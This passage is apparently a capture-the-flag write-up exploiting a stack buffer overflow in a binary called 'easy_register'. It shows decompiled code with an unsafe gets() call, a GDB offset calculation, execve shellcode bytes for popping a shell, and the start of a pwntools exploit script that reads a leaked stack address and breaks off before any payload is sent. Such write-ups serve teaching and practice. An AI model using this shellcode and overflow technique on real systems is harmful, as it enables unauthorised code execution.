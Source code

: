 ```bash
[+] Exiting.
```

### Static analysis w/ Ghidra

`easy_register()` function is our vulnerable function. It has buffer of size 80 bytes whose input is got via `gets()`.

**source code:**

```c
void easy_register(void)

{
  char VulnBuffer [80];
  
  printf("[\x1b[34mi\x1b[0m] Initialized attendee listing at %p.\n",VulnBuffer);
  puts("[\x1b[34mi\x1b[0m] Starting registration application.\n");
  printf("Hacker name > ");
  gets(VulnBuffer);
  puts("\n[\x1b[32m+\x1b[0m] Registration completed. Enjoy!");
  puts("[\x1b[32m+\x1b[0m] Exiting.");
  return;
}
```

### Dynamic analysis - GDB

To find the offset lets use `cyclic(100)` from pwntools and pass it to the binary through GDB. The program crashes and we can see that the RBP has the values `vaaa` which is at an offset of 84 bytes(found using `cyclic_find('vaaa')`). Therefore the **offset to RIP is 88 bytes**

### Popping a shell

Since `NX` - NonExecutable is disabled we can get shellcode to run on the stack! Going with this shellcode which can be got through shellstorm

```
\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05
```

### Easy register pwn script

```python
#!/bin/python2
from pwn import *

exe = "./easy_register"

elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context.delete_corefiles = True

# Setup process
def start(argv=[], *a, **kw):
    if args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


p = start()
p.recvuntil("listing at")
leak = int(((p.recvline()).strip()).strip('.'), 16)
info("Leaked address: {}".format(hex(leak)))

```
